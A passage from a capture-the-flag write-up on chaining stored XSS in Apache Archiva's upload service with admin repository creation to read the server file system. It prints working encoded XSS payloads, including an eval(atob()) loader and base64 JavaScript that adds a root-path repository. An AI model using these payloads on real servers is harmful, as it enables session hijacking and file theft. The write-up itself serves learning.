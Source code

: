 In the repository tab, the admin can add repositories and use a local path so if we set it to `/` we have access to the whole file system through the `/repository/:repo` endpoint

so the exploit is now:

* create XSS payload through the upload page
    
* get admin cookie
    
* create repo
    
* get flag
    

Making the exploit was kind of a struggle because I was trying to do the whole chain in javascript. The first problem was not able to add slashes. like in

```javascript
fetch("http://localhost/something");
```

I think this is a trivial problem for more experienced CTF players but I got stuck in this for a bit.

I tried using base64 to add the payload and that worked although base64 can also have slashes. I then tried to include a base64url encode/decode to handle the slashes and I got a 500 error.

![burp 500 error](https://cdn.hashnode.com/res/hashnode/image/upload/v1678983041758/bf212cbc-ba8d-4987-9817-5bfe458683ea.png)

The problem was that if the path segment had more than 255 chars it wouldn't work.

big payload example that i was using:

```diff
http://localhost:8055/restServices/archivaUiServices/fileUploadService/save/internal/%22%3E%3Cimg%20onerror=%22fetch(atob('bGV0IGJvZHkgPSB7ImlkIjoibXlyZXBvIiwibmFtZSI6Im15cmVwbyIsImxheW91dCI6ImRlZmF1bHQiLCJsb2NhdGlvbiI6Ii8iLCJjcm9uRXhwcmVzc2lvbiI6IjAgMCAqICogKiA_Iiwic2Nhbm5lZCI6dHJ1ZSwic25hcHNob3RzIjpmYWxzZSwicmVsZWFzZXMiOmZhbHNlLCJibG9ja1JlZGVwbG95bWVudHMiOmZhbHNlLCJza2lwUGFja2VkSW5kZXhDcmVhdGlvbiI6ZmFsc2UsIm1vZGlmaWVkIjp0cnVlfTsKICBmZXRjaCgnaHR0cDovL2xvY2FsaG9zdDo4MDU1L3Jlc3RTZXJ2aWNlcy9hcmNoaXZhU2VydmljZXMvbWFuYWdlZFJlcG9zaXRvcmllc1NlcnZpY2UvYWRkTWFuYWdlZFJlcG9zaXRvcnknLCB7bWV0aG9kOiAnUE9TVCcsIGJvZHk6IGJvZHl9KTsKICBzZXRUaW1lb3V0KGZ1bmN0aW9uKCl7CiAgICBmZXRjaCgnaHR0cDovL2xvY2FsaG9zdDo4MDU1L3JlcG9zaXRvcnkvbXlyZXBvL2ZsYWcudHh0JykKICB9LCA1MDAp'))%22%20src=%22x1678548818692%22%3E%3Cdiv%20id=%22x/2/1/1?_=1678542318133
```

After struggling a bit I remember that I can upload files to the server. so I wouldn't need to have a big string on the path. I could just upload a js file and call the file from my XSS payload.

This worked out and made me feel quite clever.

You could choose where to upload the file since you controlled every path segment from `/repository/internal/js1/1/1/1-1.5.js` and to include the script file from the img tag I was using:

```javascript
// base64:
// import("./js1/1/1/1-1.5.js").then(s=>{s.run("localhost:8055")});
x"><img%20src="x"%20onerror="javascript:eval(atob('aW1wb3J0KCIuL2pzMS8xLzEvMS0xLjUuanMiKS50aGVuKHM9PntzLnJ1bigibG9jYWxob3N0OjgwNTUiKX0pOw'))">
```
